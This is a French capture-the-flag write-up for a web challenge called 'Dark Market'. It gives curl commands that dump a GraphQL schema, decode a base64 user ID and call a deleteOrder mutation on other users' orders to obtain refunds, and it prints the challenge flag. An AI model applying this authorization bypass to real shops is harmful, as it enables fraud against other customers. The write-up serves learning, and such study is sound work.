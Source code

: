 # Dark Market

Nous voilà face à une boutique en ligne.

D'après l'énnoncé, le but est d'acheter le flare gun.

Après avoir naviguer sur le site, on se rends compte que des requêtes graphQL sont effectuées.

On peut dumper le schéma complet grâce à cette requête : 

```
curl --Cookie "session=SESSIONCOOKIE"  http://defense.alieni.se:3002/graphql -X POST --data 'query={__schema {queryType { name }mutationType { name }subscriptionType { name }types {...FullType}directives {name 
description args {...InputValue}onOperation onFragment onField}}}fragment FullType on __Type {kind name 
description fields(includeDeprecated: true) {name description args {...InputValue}type {...TypeRef}isDeprecated 
deprecationReason}inputFields {...InputValue}interfaces {...TypeRef}enumValues(includeDeprecated: true) {name 
description isDeprecated deprecationReason}possibleTypes {...TypeRef}}fragment InputValue on __InputValue {name 
description type { ...TypeRef }defaultValue}fragment TypeRef on __Type {kind name ofType {kind name ofType {kind 
name ofType {kind name}}}}'

```

Les choses à retenir sont : 

Les deux méthodes findOrder et findProduct, ainsi que la mutation deleteOrder.

deleteOrder prends 2 arguments : un orderID ainsi qu'un userID

```
.....
"name":"MyMutations",   "description":null,  "fields":[    {                     
"name":"deleteOrder",   "description":null,   "args":[{
  "name":"orderId","description":null, "type":{"kind":"SCALAR","name":"String", "ofType":null},"defaultValue":null }, {                           
"name":"userId", "description":null,             
.....
```

Pour supprimer une commande, il faut dans un premier temps récuperer l'ID d'un user :

```
root@maze:~# curl --Cookie 
"session=SESSIONCOOKIE" 
http://defense.alieni.se:3002/graphql -X POST --data 
'query={findOrder(orderId:"5ee1e75f-e9e5-4119-b42e-5a20cb0a389e") {id user{name id}}}'


{"data":{"findOrder":{"id":"T3JkZXJzOjY0MA==","user":{"name":"fuu","id":"VXNlcnM6MTIzNg=="}}}}


```

On base64 decode l'id : 

```
root@maze:~# echo -n "VXNlcnM6MTIzNg==" | base64 -d
Users:1236

```

Puis on supprimer la commande : 

```
root@maze:~# curl --Cookie
"session=SESSIONCOOKIE"
 http://defense.alieni.se:3002/graphql -X POST --data 'query=mutation { deleteOrder(orderId: 
"5ee1e75f-e9e5-4119-b42e-5a20cb0a389e", userId: 1236){success} } '

{"data":{"success":true}}


```

La commande est supprimer, et nous avons été remboursé !

On va maintenant essayer de supprimer une commande mais faite par un autre.

Cela fonctionne ! On peut donc dépasser 100$ et acheter le flare gun, une fois fait, le flag est affiché.

SECT{__er0t1cally...4s 1f IT wer3__}



